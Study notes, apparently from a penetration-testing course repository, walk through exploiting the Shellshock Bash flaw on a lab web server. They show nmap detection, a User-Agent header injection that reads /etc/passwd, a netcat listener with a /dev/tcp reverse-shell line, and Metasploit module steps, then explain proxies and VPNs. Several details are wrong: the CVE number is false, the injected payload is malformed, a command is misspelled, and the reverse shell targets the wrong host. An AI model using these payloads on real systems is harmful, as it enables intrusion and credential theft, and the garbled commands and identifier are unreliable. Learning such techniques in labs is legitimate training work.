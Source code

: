 # Exploiting Bash CVE-2012-6271 Vulnerability (Shellshock)
#### Overview
`Shellshock`\
Is the name given to a family of vulnerabilities in the **Bash shell**
CGI 

Check if Apatch is running
```bash
nmap <IP>
```
Search IP address on browser and notice CGI command is working in the website in developer tool
Check if it's has vulnerabilities\
[--script=http-shellshock](https://github.com/itr-a/eJTP-Learning/blob/f35580191317792f0cee361f7e7910c405182f4d/Tools/Nmap.md#53)
```bash
# Specify link with 'uri'
nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
Select BurpSuit on FoxyProxy
`BurpSuit`
Linux tool
Make sure **Intercept is on** in **Proxy** tab
-> Click **Forward**
Inject special characters in HTTP header
Send requests to Repeater
On **Repeater** tab
-Remove user agent information
```bash
# Send this command
User Agent: () {:;}; echo; echo; bin/bash 'c 'cat /etc/passwd'
```

reverseshell
Set up listener port
```bash
# nc -nvlp <'listen port'>
```

```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```

Exploit with Metasploit
```bash
service postgresql start && msfonsole
```
```bash
search shellshock
```
-> Use exploit module
```bash
set RHOSTS
set TARGETURI <example: /gettime.cgi>
exploit
```

#### 📓 Note
`FoxyProxy`\
What is **Proxy**?\
A proxy server is like a **middleman between you and the internet**.\
Why use Proxy?
|Purpose|Explanation|
|---|---|
|Hide IP|Site sees the proxy's IP instead
|Bypass restrictions|Access content blocked in the region|
|Filter traffic|seful in companies or schools to block certain sites|
|Debug/Intercept|Tools like Burp Suit use proxy capture your browser traffic|


Example
- Want to visit most sites normally
- BUT want all traffic to a website to go through Burp Suit so can analyze requests


Proxy vs VPN
|Term|What is hides|Encryption|
|---|---|---|
|Proxy|Only browser/app traffic|No encryption(unless HTTPS)|
|VPN|All network traffic|usually encrypted|

Plugin that allows to automatically switch between proxies -> click BurpSuit
-> All traffic will be redirected to the BurpSuit
